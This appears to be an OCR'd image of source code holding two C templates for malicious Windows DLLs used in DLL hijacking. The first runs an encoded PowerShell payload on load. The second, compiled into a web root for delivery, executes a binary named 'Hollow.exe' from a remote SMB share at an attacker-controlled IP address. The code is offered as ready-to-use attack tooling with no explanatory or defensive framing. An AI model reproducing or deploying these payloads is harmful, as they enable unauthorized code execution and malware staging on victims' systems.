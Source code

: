     #######EXAMPLE 1:#######
    // x86_64-w64-mingw32-gcc pwn.c -o pwn.dll -shared

    #include <windows.h>
    #include <stdlib.h>
    #include <stdio.h>

    // Default function that is executed when the DLL is loaded
    void Entry() {
        system("powershell -enc <BASE64_PWSH_CODE>");
    }

    BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call) {
        case DLL_PROCESS_ATTACH:
        CreateThread(0, 0, (LPTHREAD_START_ROUTINE)Entry, 0, 0, 0);
        break;
        case DLL_THREAD_ATTACH:
        case DLL_THREAD_DETACH:
        case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
    }


    #######EXAMPLE 2:#######
    // sudo i686-w64-mingw32-gcc-win32 srrstr.c -lws2_32 -o /var/www/html/srrstr.dll -shared

    #include <windows.h>

    BOOL WINAPI DllMain(HINSTANCE hinstDll, DWORD dwReason, LPVOID lpReserved) {
        switch(dwReason) {
            case DLL_PROCESS_ATTACH:
                //WinExec("c:\\windows\\system32\\calc.exe", 0);
                WinExec("\\\\192.168.45.158\\visualstudio\\Hollow\\Hollow\\bin\\x64\\Release\\Hollow.exe", 0);
            case DLL_PROCESS_DETACH:
                break;
            case DLL_THREAD_ATTACH:
                break;
            case DLL_THREAD_DETACH:
                break;
        }

        return 0;
    }